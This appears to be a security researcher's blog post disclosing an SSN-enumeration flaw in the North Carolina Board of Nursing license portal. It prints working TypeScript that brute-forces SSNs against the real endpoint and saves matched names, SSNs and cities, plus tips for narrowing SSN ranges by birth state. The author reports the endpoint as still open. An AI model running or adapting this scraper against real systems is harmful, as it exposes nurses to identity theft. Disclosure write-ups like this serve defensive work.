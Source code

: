 ```yaml
---
layout: project
title: Social security number vulnerability for NC Nurses
thumbnail: images/fetchbyssn.png
stack:
  - TypeScript
slug: ncbon-summary
source: https://github.com/willkrakow
publicId: carbon_1_okmryp
description: State agency website reveals social security numbers for registered nurses in North Carolina
date: 2023-02-21
---
```


A few months back my wife started a new nursing job. Around 10AM on her first day, she called and asked me to look up the renewal deadline for her nursing license. Being the good work-from-home husband that I am, I did some Googling and landed on the [North Carolina Board of Nursing License Verification Portal](https://portal.ncbon.com/LicenseVerification/search.aspx).

The portal offers three ways to search for a license: by name, by license number, and by **social security number**. This last one caught my eye - any time a feature related to SSNs is presented on a publicly facing website there's a possibility for data leaks. And state governments have shown [a lack of diligence](https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/) with respect to their employees SSNs before. So I began digging, for evidence of data mishandling.

**What I found was that I could brute force the SSN search feature to get a list of names, social security numbers, and cities of residence for a large portion of nurses, nursing assistants, and nurse practitioners registered in the state of North Carolina.**

---

To understand how this was possible - almost trivially so - we first need to examine domain of our search: the 1 billion possible nine-digit social security numbers.

The fact that SSNs serve as our nation's de facto 'password' that citizens must use to navigate legal, financial, and professional systems in the United States is somewhat of a duct-tape job. SSNs were never meant to be such a sensitive, critical token - they were introduced to keep track of income taxes. Cards issued between 1946 and 1972 were labeled ["Not for identification purposes"](https://web.archive.org/web/20120629234649/http://www.americanchronicle.com/articles/view/3911). However, in the 1960s, [the government shoehorned them into their current general identification role](https://www.ssa.gov/history/reports/ssnreportc2.html) to simplify digital record-keeping across agencies.

> Ironically, despite serving as a pseudo-password to opening a credit card, verifying a license, or retrieving sensitive medical information, SSNs would fail nearly all password requirement checks on modern websites. 

In 2011, the Social Security Administration [began assigning SSNs in a pseudorandom fashion](https://www.ssa.gov/employer/randomization.html), rather than by state (as it did prior to 1972) or ZIP code (1972-2011) as it had in the past. But for those of us born prior to 2011, a bad actor only needs to know the year and US state in which someone was born to quickly assert the first three numbers (e.g., `123-##-####`), or at least a range of those first three numbers (e.g., `123-##-####` through `125-##-####`). Even the largest state by population, California, had only 81 possible three-digit prefixes between 1973 and 2011 - that means we can be certain that a person born in California between those years *does not* have an SSN in the remaining **99.2%** of all possible combinations.

For those whose parents applied for a social security card in North Carolina between 1972 and 2011 - your SSN is either between `237-##-####` and `246-##-####`, or (less likely) `681-##-####` and `690-##-####`.

---

So back to my "hacking". I began by digging in the most obvious place: the HTML source and the network requests. I searched for my wife by name, then opened up the dev console and did a quick regex search various forms of her SSN (e.g., `#########`, `###-##-####`, `### ## ####`) - and came up empty. Good!

The network requests were also clean - they *were* sending SSNs as a query parameter to the a `/Search.aspx` endpoint, but it seemed resistant to trivial SQL injections. Another point for the Board.

I had assumed that the endpoint would be rate limited and protected with some sort of malicious threat protection, but even after nearly an hour of entering obvious SQL injections and malformed requests, my IP hadn't been blocked. Maybe I could just brute force this?

To test my theory, I copied the `/Search.aspx` API call as a curl request and sent a few test payloads. And there it was - the API was returning different response statuses for positive results and negative results, and the results list for a given SSN query was serialized in an ASP.NET `_VIEWSTATE` attribute.

To test the extent of this vulnerability I wrote ~50 lines of TypeScript that would loop through a shortened list of 1 million numbers (e.g., `###-00-0000` through `###-99-9999`) and check if the response had results or not. I let that script run for about 20 minutes - with no interval randomization, no IP address shuffling, no proxy server, and managed to construct a list of over 1000 names, SSNs, and cities of residence for the nurses of North Carolina. With a little optimization, I'm confident I could retrieve thousands of results in an equally short amount of time.

Here are the important bits of the code.

<details>
    <summary>Performing a search by SSN</summary>

```typescript
const fetchBySSN = (num: string) => fetch("https://portal.ncbon.com/LicenseVerification/search.aspx", {
        method: "POST",
        headers: {
            "accept": "text/html,application/xhtml+xml",
            "content-type": "application/x-www-form-urlencoded",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`
        },

        "referrerPolicy": "strict-origin-when-cross-origin",
        "referrer": "https://portal.ncbon.com/LicenseVerification/search.aspx",
        body: `__VIEWSTATE=%...txtSSN=${num}&...`,
})
```
</details>

> Negative results contain the string "unable to locate any results...". Positive results will contain any empty <ul> for the error messages

<details>
<summary>Fetching the results</summary>

```typescript

const fetchResultsList = () => fetch("https://portal.ncbon.com/LicenseVerification/resultList.aspx", {
        headers: {
            "authority": "portal.ncbon.com",
            "accept": "text/html,application/xhtml+xml",
            "cache-control": "no-cache",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`,
            "referer": "https://portal.ncbon.com/licenseverification/search.aspx",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1"
        }
})
```
</details>

<details>
<summary>Sample response</summary>

```html
...
<tr>
	<td>M**** P*******</td>
	<td>Asheville, NC</td>
	<td>NAII Listing</td>
	<td class="text-right">
        <input type="button" value="View Record" class="btn btn-info btn-xs" onclick="document.location='/LicenseVerification/result.aspx?ID=7****5';" />
    </td>
</tr>
...
```
</details>

<details>
    <summary>Looping through the range of SSNs</summary>

```typescript
const prefixes = ['']

const ssnFetches = async () => {
    const filename = path.join(__dirname, 'results_new.txt');
    fs.appendFileSync(filename, 'Results');

    let totalFound = 0;

    for await (let prefix of prefixes) {
        for (let i = 1; i < 100; i++) {
            let areaCode = `${i}`;
            if (i < 10) {
                areaCode = `0${i}`
            }
            for (let j = 9998; j > 1000; j--) {
                let lastFour = `${j}`
                const fullSSN = `${prefix}-${areaCode}-${lastFour}`
                try {
                    const res = await fetchBySSN(fullSSN);
                    if (res.status !== 200) {
                        console.error("Error fetching")
                        console.error(res.statusText)
                        continue
                    }
                    const text = await res.text()
                    if (text.includes('unable to locate any results matching ')) {
                        console.info(`No matches for ${fullSSN}`)
                        continue;
                    }
                    const resultString = `${fullSSN} - is a nurse\n`

                    const resultResponse = await fetchResultsList(); // Fetch the results HTML using the same session cookie
                    const resultHtml = await resultResponse.text();
                    const document = new jsDom.JSDOM(resultHtml);
                    const nodes = document.window.document.querySelectorAll("div.primaryContent tr"); // Grab the results from the <table>
                    const results = [...nodes]
                        .slice(1) // Remove header row
                        .map(row => ({
                            name: row.children[0].innerHTML,
                            location: row.children[1].innerHTML,
                            ssn: fullSSN,
                        }));
                    fs.appendFileSync(filename, JSON.stringify(results));
                    totalFound += 1;
                    console.log(`total found: ${totalFound}`)
                    console.log(resultString)
                } catch (err) {
                    console.error(err)
                }
            }
        }
    }    
}
```
</details>

---

I reported these findings to the NCBON immediately after discovery and initial documentation. About 24 hours later, I still hadn't heard back, though they had commented out the section of HTML that displayed the SSN search so they clearly read my message. However, the API endpoint was still open, and again I was able to exploit it with no problems. I sent another message mentioning this, and a few hours later received a call from the Board's Chief Legal Officer.

The legal officer apologized for the delay, thanked me for being forthcoming, and we set up a time to meet with the IT Director to discuss the issue the following day. I sent over the scripts, payloads, screenshots, and a timeline as well as a summary of my findings and recommendations, and they said they'd get back to me with any questions.

---

It's been about 45 days since that call, which is more than the 30 day disclosure window I thought was adequate. Last I checked, the endpoint was still open.



